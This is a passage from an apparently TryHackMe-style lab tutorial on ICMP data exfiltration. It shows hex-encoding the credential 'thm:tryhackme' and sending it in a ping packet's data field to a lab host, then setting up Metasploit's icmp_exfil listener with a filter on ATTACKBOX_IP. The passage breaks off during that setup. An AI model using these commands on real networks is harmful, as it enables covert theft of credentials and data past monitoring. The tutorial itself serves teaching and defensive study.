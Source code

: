 The ping command in the Linux OS has an interesting ICMP option. With the `-p` argument, we can specify 16 bytes of data in hex representation to send through the packet. Note that the `-p` option is only available for Linux operating systems. We can confirm that by checking the ping's help manual page.

*Ping's -p argument:*
<img width="1159" height="57" alt="image" src="https://github.com/user-attachments/assets/c5d05461-646a-4364-814f-9662cbc37d0d" />



Let's say that we need to exfiltrate the following credentials `thm:tryhackme`. First, we need to convert it to its Hex representation and then pass it to the `ping` command using `-p` options as follows,

*Using the xxd command to convert text to Hex:*
```
root@AttackBox$ echo "thm:tryhackme" | xxd -p 
74686d3a7472796861636b6d650a
```
We used the `xxd` command to convert our string to Hex, and then we can use the `ping` command with the Hex value we got from converting the `thm:tryhackme`.

*Send Hex using the ping command:*
```bash
root@AttackBox$ ping 10.10.147.135 -c 1 -p 74686d3a7472796861636b6d650a
```
We sent one ICMP packet using the ping command with `thm:tryhackme` Data. Let's look at the Data section for this packet in the Wireshark.

*Checking Data Field in Wireshark:*
<img width="892" height="589" alt="image" src="https://github.com/user-attachments/assets/43ec101a-ae84-4f00-9cc7-e1e550b5935a" />


Excellent! We have successfully filled the ICMP's Data section with our data and manually sent it over the network using the `ping` command.

## ICMP Data Exfiltration

Now that we have the basic fundamentals of manually sending data over ICMP packets, let's discuss how to use Metasploit to exfiltrate data. The Metasploit framework uses the same technique explained in the previous section. However, it will capture incoming ICMP packets and wait for a Beginning of File (BOF) trigger value. Once it is received, it writes to the disk until it gets an End of File (EOF) trigger value. The following diagram shows the required steps for the Metasploit framework. Since we need the Metasploit Framework for this technique, then we need the AttackBox machine to perform this attack successfully.

*ICMP Data Exfiltration:*
<img width="1017" height="206" alt="image" src="https://github.com/user-attachments/assets/a8918893-fe4d-4f00-8d44-ea4851dbee62" />

Now from the **AttackBox**, let's set up the Metasploit framework by selecting the `icmp_exfil` module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the `BPF_FILTER` option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows,

*Set the BPF_FILTER in MSF:* 
```bash
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKBOX_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP
```
We also need to select which network interface to listen to, `eth0`. Finally, executes `run` to start the module.
